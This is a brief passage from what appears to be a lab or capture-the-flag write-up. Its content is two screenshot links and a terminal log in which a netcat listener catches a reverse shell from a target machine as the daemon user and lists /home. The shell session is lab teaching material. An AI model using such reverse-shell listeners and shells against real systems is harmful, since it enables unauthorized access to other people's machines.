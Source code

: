 <img src=".\图片\Snipaste_2023-06-25_16-31-38.png" alt="Snipaste_2023-06-25_16-31-38" style="zoom:67%;" />

<img src=".\图片\Snipaste_2023-06-25_16-31-46.png" alt="Snipaste_2023-06-25_16-31-46" style="zoom:80%;" />

```bash
└─# nc -lvvp 1234            
listening on [any] 1234 ...
connect to [192.168.0.103] from www.example.com [192.168.0.102] 34838
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 00:30:54 up  1:46,  0 users,  load average: 0.12, 0.30, 0.79
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
bash: cannot set terminal process group (2769): Inappropriate ioctl for device
bash: no job control in this shell
daemon@linux:/$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@linux:/$ cd /home
cd /home
daemon@linux:/home$ ls
ls
robot
```
